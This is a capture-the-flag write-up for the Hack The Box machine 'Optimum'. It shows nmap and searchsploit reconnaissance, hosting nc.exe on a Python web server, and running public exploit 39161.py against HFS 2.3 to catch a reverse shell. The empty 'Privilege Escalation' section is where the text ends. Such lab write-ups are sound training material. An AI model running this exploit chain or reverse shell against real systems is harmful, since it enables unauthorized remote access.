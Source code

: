 # Optimum 

![Optimum](profile.png) 


## Summary

* Windows Server 2012 R2 with a file server running on port 80
* RCE exists for the file server, HFS 2.3
* Simple web server to host nc.exe and a python script is enough to get a reverse shell

## Tools needed

* Python with http.server module
* searchsploit
* nc


## Detection 

Start with nmap

```
#nmap -sV -O --script *vuln* -oA nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 21:46 CDT
Nmap scan report for 10.10.10.8
Host is up (0.044s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|Vista|2008|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 (88%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.34 seconds
```

OS best guess is `Microsoft Windows 2012|Vista|2008|7 (90%)`.  Open port is 80 and it's an HTTP File Server, or specifically `HFS 2.3`.  Let's start at the port.

```
curl -I 10.10.10.8:80
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3835
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.492714939173311; path=/; 
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

curl confirms the server version as `HFS 2.3`.  Let's check the web interface.

![hfs](hfs.png) 

Clicking around there are quite a few areas we could try to gain a foothold.  However, given this is old software, let's check searchsploit first.

```
searchsploit hfs 2.3
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                                 | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                              | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                         | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                         | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                    | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hard to pass up trying an RCE with Python, so let's try 39161.py.

## Exploit

```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/htb/optimum/39161.py
```
Checking the code, we need to get a Windows Netcat .exe ready for upload to the target server and the author expects it to be locally hosted, specifically http://<local IP>:80/nc.exe.

```
#find / | grep -i nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

#mkdir web
#cp /usr/share/windows-resources/binaries/nc.exe web/.
#cd web
#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
```

Let's test the makeshift web server first ...

```
#curl 10.10.14.5:80/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  11.3M      0 --:--:-- --:--:-- --:--:-- 11.3M 

-------------------------------------------------------------------------------

#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
10.10.14.5 - - [10/Oct/2020 23:08:40] "GET /nc.exe HTTP/1.1" 200 -
```

File was downloaded, so it's working.  After fixing the hard-coded local IP and listener port in 39161.py, we're ready to execute.

```
#python 39161.py 10.10.10.8 80

-------------------------------------------------------------------------------

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop> systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
```

For some reason the first execution of 39161.py didn't take.  On the second attempt is when I got the shell.


## Privilege Escalation






